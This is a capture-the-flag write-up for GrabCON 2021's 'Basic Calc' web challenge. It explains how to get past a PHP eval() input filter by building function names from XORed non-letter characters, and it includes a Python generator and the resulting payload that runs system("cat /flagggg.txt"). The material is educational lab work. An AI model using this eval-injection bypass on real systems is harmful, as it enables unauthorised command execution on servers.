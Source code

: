 # Basic Calc
## Description

Ever used calc based on php?
## Solution
First we open that web page

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_1.jpg)

Look at the code, we need to bypass the condition that not match regex : ``[A-Za-z`]`` . Since ``eval — Evaluate a string as PHP code``, we can inject a strings to become a code execution.

To bypass input above, we use a `XOR` technique. For example :

```php
A XOR B = C
B XOR C = D

# we can try in php
# For example:
<?php
 echo ('3'^'@'); # output = s
 echo ('9'^'@'); # output = y
 echo ('3'^'@'); # output = s
 echo ('4'^'@'); # output = t
 echo ('8'^']').('2'^'_'); # concat strings

 #ouput = system
?>
```

So how can we know that output? So we decide to create a python script to convert ``strings to XOR code``
or ``generate a xor code from strings``.

```python
# except reqular expression : A-Za-z`
# php print xor example : echo ("A"^"B")
# system execute example:
# <?php
# echo ("system(ls -la)"); #it will execute as strings
# echo ("system")("ls -la"); #it will execute as symbols #magic
# ?>

string_code = ['system','cat /flagggg.txt']
obfuscated_code = ""
charset = "1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"

for code in string_code:
    obfuscated = ""
    for i in code:
        is_found_obfuscated = False
        for j in charset:
            for k in charset:
                if ord(j)^ord(k) == ord(i):
                    is_found_obfuscated = True
                    obfuscated += ".('%s'^'%s')" % (j, k)
                    #print("XOR ="+chr(ord(j)^ord(k)))
                if is_found_obfuscated:
                    break
            if is_found_obfuscated:
                break
        if not is_found_obfuscated:
            obfuscated += ".'%s'" % i
    #print("(%s) = (%s)" % (code, obfuscated[1:]))
    obfuscated_code += "(%s)" % obfuscated[1:]
print(''.join(["(\"%s\")" % i for i in string_code]) + '=' + obfuscated_code)
```

Explain code above:

 1. suppose flagggg.txt location is at ``/`` directory. So we want php to execute code ``system("cat /flagggg.txt"``
 2. list all the chars that not match the regex. For example:``charset ="1234567890!#$%&'()*+/^,-.:;<=>?@[]_{|}~"``
 3. Since ``echo ("system(ls -la)");`` will execute as strings but ``echo ("system")("ls -la");`` will execute as symbols, so we need to seperate them. In python script above we convert them to a list which we store in `string_code` variable.
 4. looping to find ``XOR code`` of each chars that we compared
 5. print all ``XOR code`` that equal the chars in each of index `string_code` variable

```python
Ouput:
("system")("cat /flagggg.txt") = (('3'^'@').('9'^'@').('3'^'@').('4'^'@').('8'^']').('2'^'_'))(('8'^'[').('!'^'@').('4'^'@').('^'^'~').'/'.('8'^'^').('1'^']').('!'^'@').('8'^'_').('8'^'_').('8'^'_').('8'^'_').'.'.('4'^'@').('8'^'@').('4'^'@'))
```

So now go back to the web page and try to input.

![enter image description here](https://raw.githubusercontent.com/vichhika/CTF-Writeup/main/GrabCON%20CTF%202021/Web/Basic%20Calc/figure_3.jpg)

We got flag!
